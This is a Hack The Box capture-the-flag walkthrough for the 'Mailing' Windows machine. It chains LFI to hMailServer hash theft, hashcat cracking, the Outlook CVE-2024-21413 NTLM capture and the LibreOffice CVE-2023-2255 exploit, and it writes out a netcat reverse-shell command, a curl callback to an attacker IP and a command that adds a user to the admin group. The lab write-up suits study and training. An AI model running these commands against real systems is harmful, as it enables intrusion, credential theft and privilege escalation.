 ```yaml
---
date: 2025-02-03
categories: [CTF, HTB]
title: "HTB - Mailing"
tags: ['hashcat', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Mailing - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Mailing

NMAP

![image1](../resources/5bca4149e3934456a5b91fa2019e67bc.png)

Add mailing.htb to /etc/hosts

- Open Burp and capture the request from Download Instructions

![image2](../resources/d1af18942afe4d62876e16ad7234fdd9.png)

- Try and get to the hosts file:

```bash
C:\Windows\System32\drivers\etc\hosts

```
**We exclude C:\\ when doing traversal:**


![image3](../resources/51d5bd364f774b6c85645caf1df37695.png)


![image4](../resources/0ad55b0725f8446f80ba0474fb2a2927.png)

- We have a LFI vulnerability

- We know that hMailServer is running and the config file for it is in:

```bash
C:\Program Files\hMailServer\Bin\hMailServer.ini

```
But that didn't work:


![image5](../resources/8274244457eb4bc58395c6bdc43e246b.png)

- We can try and do:

```bash
C:\Program Files(x86)\hMailServer\Bin\hMailServer.ini

```
And we get the config file back:


![image6](../resources/c1aba331c07043688a598f53d160e999.png)

We get hashes:

AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7

\[Database\]


Password=0a9f8ad8bf896b501dde74f08efd7e4c


![image7](../resources/34bf7a31fc4a47baa6194267a2136167.png)

- Crack with hashcat:

```bash
hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

```

![image8](../resources/9a73545044e64de1886f739ab6a91a3d.png)

**Administrator - homenetworkingadministrator**

- Not logon creds:

![image9](../resources/3fc853d2ea2f48a79613ac3646126f62.png)

- In order to decrypt the database password - we need to use a program specifically made for it:
<https://github.com/GitMirar/hMailDatabasePasswordDecrypter>


![image10](../resources/4b69a12112c249af97eb0d8bc9b14f29.png)

**6FC6F69152AD**

- Tried logging in through SMTP - But it didn't work:

```bash
telnet mailing.htb 25

EHLO client.net

AUTH LOGIN

<username>

<password>

```

- Log in through POP3 - worked but nothing there:

```bash
telnet mailing.htb 110

USER Administrator@mailing.htb

PASS homenetworkingadministrator

```
- If we search for Outlook vulnerabilities we come across this:
<https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability>

- Set up Responder:

```bash
Responder -I tun0
```

- And send the following crafted payload (We get the recipient name from the homepage):

```bash
python3 CVE-2024-21413.py --server "mailing.htb" --port 587 --username "administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url '\\10.10.14.15\meeting' --subject "Important"

```

![image11](../resources/664b525f935743a2a8cb850225969bed.png)

- And we get a hit:

![image12](../resources/eb85a293e71c4aa790d69ded0b1cd183.png)

- Crack with hashcat:

```bash
hashcat -a 0 -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

```

![image13](../resources/8839ade021d6402f9633465edad34d9b.png)

**maya : m4y4ngs4ri**

- The creds are good:

![image14](../resources/a1ab6d1146e3422993d26f37ad44a8e6.png)

- And we can evil-winrm in:

![image15](../resources/00726ea407744f3a9471303b1200505d.png)

```bash
evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri

```

![image16](../resources/440f58236c5d4196866c9c51cc3eda93.png)

```bash
cat user.txt

```
- Enumerating - we see a user localadmin:

![image17](../resources/543506c03d7a45618342b7b3ce72c4b5.png)

- Looking at scheduled tasks:

```bash
schtasks /query /fo LIST /v | select-string -pattern "localadmin" -context 9,13

```

![image18](../resources/917123aa2efc48abb8d1536a123d19ac.png)

We see an office script running under localadmin

- We can also see that LibreOffice is installed:

![image19](../resources/205b31e287e1480d9ce4d4744a189648.png)

- Get LibreOffice version:

```powershell
$libreofficeInstallPath = "C:\Program Files\LibreOffice"
$libreofficeVersion = (Get-Item "$libreofficeInstallPath\program\soffice.bin").VersionInfo.FileVersion
Write-Host "LibreOffice Version: $libreofficeVersion"

```

![image20](../resources/ff35adbdc84e45cbb48a93b1327fb5d7.png)

- **CVE-2023-2255:**

![image21](../resources/ced8b388e3ec49ea905a09a30b580a56.png)

- Test the exploit:
<https://github.com/elweth-sec/CVE-2023-2255/blob/main/CVE-2023-2255.py>

```bash
python3 CVE-2023-2255.py --cmd "curl <http://10.10.14.15:8000/a>" --output form.odt

```
- Upload the form.odt to C:\Important Documents

![image22](../resources/990308e37f5c4afe8e268b30cc25d00b.png)

- Set up python http server to test:

![image23](../resources/1d34f984e26746dc8c4e10bce2faa711.png)

- Uploading nc and trying to get a reverse shell didn't work because of AV:

```bash
python3 CVE-2023-2255.py --cmd "C:\Important Documents\nc.exe 10.10.14.15 8000 -e cmd.exe" --output form.odt

```
- So instead added maya to admin group:

```bash
python3 CVE-2023-2255.py --cmd "net localgroup Administradores /add maya" --output form.odt

```

![image24](../resources/7526f6a5f87c4deda29fe2977ae3a478.png)

- Close the current evil-winrm session and start a new session (otherwise the new group won't take effect)

```bash
cat root.txt

```
- We can also dump the SAM hashes now